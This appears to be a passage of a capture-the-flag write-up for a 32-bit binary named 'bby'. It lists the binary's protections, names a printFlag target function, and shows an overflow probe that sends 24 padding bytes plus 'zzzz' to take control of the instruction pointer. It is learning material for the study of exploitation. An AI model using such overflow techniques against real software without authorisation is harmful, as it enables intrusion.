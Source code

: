 0x0 Introduction
=

`bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
`

This file is ELF 32bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : ENABLED

	PIE       : disabled
	
	RELRO     : Partial

It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=

	# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

	[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

	[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.
) = 44

	[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

	[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?
)        = 22

	[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

	[0xffffffffffffffff] +++ killed by SIGSEGV +++
